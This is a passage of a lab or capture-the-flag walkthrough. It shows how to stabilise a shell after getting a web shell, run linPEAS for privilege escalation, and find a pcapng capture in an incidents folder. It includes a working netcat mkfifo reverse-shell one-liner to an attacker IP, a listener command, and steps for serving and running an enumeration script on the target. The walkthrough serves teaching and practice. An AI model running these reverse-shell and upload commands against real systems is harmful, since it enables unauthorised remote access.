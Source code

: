 If we try to browse around with our semi-interactive shell we notice we can't explore beyond the `/var/www` folder:

![](https://i.imgur.com/9vrhTKf.png)

So we need to figure out how to escape this restricted access we have. 

### Stabilizing our shell a bit

Before we do that let's fire up a reverse shell to our machine and try to stabilize the shell so we can work more comfortable.

To do that I first run a `nc -nlvp 2112` (our favorite album and port number :laughing:) then we run the following command in our phpbash: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.0.34 2112 >/tmp/f`

With that we have a reverse shell, let's try to stabilize it now by running this python line: 
`python -c 'import pty; pty.spawn("/bin/bash")'` and then `export TERM=xterm`

That's it, now we have a somewhat better shell to explore around.

### Running linPEAS.sh

Let's see if linpeas can help us a bit here. In a folder where you have ready `linpeas.sh` let's fire up a local HTTP server with python by running: `sudo python3 -m http.server 80`.
Now let's try to upload that file to the target machine:

![](https://i.imgur.com/eYO8fan.png)

> NOTE: Remember we only have write permissions inside `/var/www/html/files/ftp/` if you try to upload anywhere else you'll get a nice `permission denied`.

Ok that works, now let's make sure we make that file executable by running `chmod +x linpeas.sh` and then we execute it `./linpeash.sh`:

Well that' took a while to run and... it didn't found anything immediately exploitable for us (unless you are not a noob like me and noticed something good there :joy: ). However, it seems to have found an username of `vagrant` and some unexpected folders named `incidents`, `data` and `vagrant`. Another possible interesting piece of info is that we have `/usr/bin/gettext.sh` inside the `PATH` variable.


### Incidents

If we list the files inside the `/incidents` we see there is an interesting file there:

![](https://i.imgur.com/BYuiCuo.png)

If you know this file type, you'll probably know already that we'll have to tinker around with `Wireshark` or a similar program next. So I've already copied that folder to the writable `ftp` folder so we can access it easily and download a copy into our kali box.

![](https://i.imgur.com/OQVaMYl.png)

> *pcapng* file is a standard format for storing captured data. PCAPNG files normally contain several blocks of data. These blocks of data contain different types of information that are useful in. capturing and analyzing network data, such as connection traffic.The blocks may consist of a section header block, interface.
